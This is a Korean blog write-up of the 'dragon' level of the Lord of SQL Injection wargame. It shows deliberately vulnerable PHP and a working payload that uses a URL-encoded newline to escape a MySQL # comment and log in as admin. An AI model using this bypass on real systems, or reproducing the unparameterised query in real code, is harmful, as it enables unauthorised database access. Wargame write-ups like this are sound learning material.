 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - dragon 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제는 `dragon`이다.  

메인 이미지가 `용이 산다` 웹툰의 `마리`다.  

대존귀탱 ㅠㅠ  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------
query : select id from prob_dragon where id='guest'# and pw=''
-------------------------------------------------------------------------------

Hello guest
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```

이번 문제에서는 쿼리문 중간에 `#`이 들어가 있다.  

`#`은 `MySQL`에서 주석을 의미한다.  

처음에는 이 주석을 어떻게 우회할 수 있지 않을까 생각했다.  

그래서 이것저것 찾다가 `executabl comments`를 찾게 되었다.  

`MySQL` 에서 주석이 여러개가 있는데, 그 중에 `/* */`이 있다.  

이 때, `/*! QUERY */` 이런식으로 안에 느낌표를 넣어주면, 해당 쿼리를 실행할 수 있다고 한다.  

쨌든 이건 문제 풀이와는 상관 없다.  

주석을 우회할 수 없을까 계속 고민하다가 서버에서 `MySQL`을 실행시키고 쿼리를 여러개 테스트 해 보았다.  

```
mysql> select idx from board where idx=50# or idx=/*!####51*/;
    -> ;

mysql> select 1 from board where idx=50# or #idx=51;
    -> ;
```

이런 형태로 테스트를 해 보았는데, 한가지 특징이 나타났다.  

잘 보면, `#` 이후는 다 주석처리가 됬다는 사실을 알 수 있다.  

때문에 쿼리가 완성이 되지 않았기 때문에 다음 줄을 입력하라고 떴고, 거기에 `;`을 입력 해 쿼리를 완성시켜주었더니 정상적으로 쿼리가 실행되었다.  

즉, `#`은 `한 줄짜리 주석`이며, `MySQL`은 `여러 줄에 걸쳐` 쿼리를 작성할 수 있다.  

이번에는 이 점을 이용해서 문제를 풀었다.  

현재 쿼리는 다음과 같다.  

```
select id from prob_dragon where id='guest'# and pw=''
```

그런데 만약 여기서 `pw`에 `%0a`를 입력 해 개행한다면 다음과 같이 구성 될 것이다.  

```
select id from prob_dragon where id='guest'# and pw='
'
```

이 때, 다음 줄은 주석이 아니므로 정상적으로 쿼리를 이어서 실행시킬 수 있게 된다.  

```
select id from prob_dragon where id='guest'# and pw='
and pw=1 or id='admin'
```

따라서 위와 같이 쿼리를 구성한다면 다음 줄의 쿼리를 실행시킬 수 있다.  

이를 위해 `URL`에 아래와 같이 입력 해 문제를 풀 수 있었다.  

```
?pw=%0a and pw=1 or id='admin
```

```php
-------------------------------------------------------------------------------------------------------
query : select id from prob_dragon where id='guest'# and pw=' and pw=1 or id='admin'
-------------------------------------------------------------------------------------------------------

Hello admin
DRAGON Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```

`DRAGON Clear!!`